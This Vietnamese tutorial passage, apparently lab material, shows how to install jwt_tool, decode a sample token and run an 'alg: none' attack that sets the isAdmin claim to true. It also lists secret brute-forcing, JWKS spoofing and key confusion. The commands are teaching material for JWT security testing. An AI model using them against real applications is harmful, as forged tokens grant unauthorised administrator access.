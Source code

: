 **Cài đặt `jwt_tool`:**
```bash
git clone https://github.com/ticarpi/jwt_tool
pip3 install -r jwt_tool/requirements.txt
```

Sau khi cài đặt, bạn có thể chạy công cụ bằng lệnh:
```bash
python3 jwt_tool/jwt_tool.py
```

**Các tính năng nổi bật của `jwt_tool`:**
- Phân tích JWT.
- Brute-force khóa bí mật của JWT.
- Tấn công các lỗ hổng phổ biến như `alg: none`, JWKS spoofing, và key confusion.

**Ví dụ: Phân tích JWT với `jwt_tool`:**
```bash
python3 jwt_tool/jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiaHRiLXN0ZG50IiwiaXNBZG1pbmI6ZmFsc2UsImV4cCI6MTcxMTE4NjA0NH0.ecpzHiyA5I1-KYTTF251bUiUMtNnrIMwvHeSZf0eB0
```

**Kết quả phân tích:**
- Header:
  ```json
  {
    "alg": "HS256",
    "typ": "JWT"
  }
  ```
- Payload:
  ```json
  {
    "user": "htb-stdnt",
    "isAdmin": false,
    "exp": 1711186044
  }
  ```
- Token đã hết hạn (timestamp trong claim `exp` đã qua).

#### **2. Khai thác JWT bằng `jwt_tool`**

**Ví dụ: Tấn công `alg: none`**
JWT với thuật toán `none` có thể dễ dàng bị khai thác nếu ứng dụng chấp nhận JWT mà không có chữ ký.

```bash
python3 jwt_tool/jwt_tool.py -X a -pc isAdmin -pv true -I eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiaHRiLXN0ZG50IiwiaXNBZG1pbmI6ZmFsc2UsImV4cCI6MTcxMTE4NjA0NH0.ecpzHiyA5I1-KYTTF251bUiUMtNnrIMwvHeSZf0eB0
```

- `-X a`: Sử dụng tấn công `alg: none`.
- `-pc isAdmin -pv true`: Thay đổi claim `isAdmin` thành `true`.
- `-I`: Đầu vào là JWT hợp lệ.

**Kết quả:**
JWT mới sẽ có claim `"alg": "none"`, cho phép bỏ qua xác minh chữ ký.

---
---